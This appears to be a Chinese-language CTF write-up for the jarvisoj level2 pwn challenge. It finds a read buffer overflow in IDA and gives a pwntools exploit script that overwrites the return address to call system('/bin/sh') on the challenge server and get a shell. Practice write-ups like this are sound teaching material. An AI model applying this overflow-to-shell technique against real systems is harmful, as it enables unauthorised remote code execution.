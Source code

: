 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level2
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/level2.54931449c557d0551c4fc2a10f4778a1

Address:
nc pwn2.jarvisoj.com 9878
```
<!-- more -->


### 0x01 可执行文件特征

```
file level2
checksec level2
chmod a+x ./level2
./level2
```

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x00.png)

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x01.png)


### 0x02 放到IDA里分析

直接反编译成C语言，存在read溢出函数和system函数，可令read溢出构造system("\bin\sh")

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x02.png)

查看system的地址

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x03.png)

查看/bin/sh的地址

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x04.png)

计算缓冲区到返回地址的距离，0x88个字节

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x05.png)

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x06.png)


### 0x03 最后的exploit如下


```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
payload = 'A' * (0x88 + 0x04) + p32(0x08048320) + p32(0) + p32(0x0804A024)
# Io = process('./level2')
Io = remote('pwn2.jarvisoj.com', 9878)
Io.send(payload)
Io.interactive()
```

得到flag

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level2/0x07.png)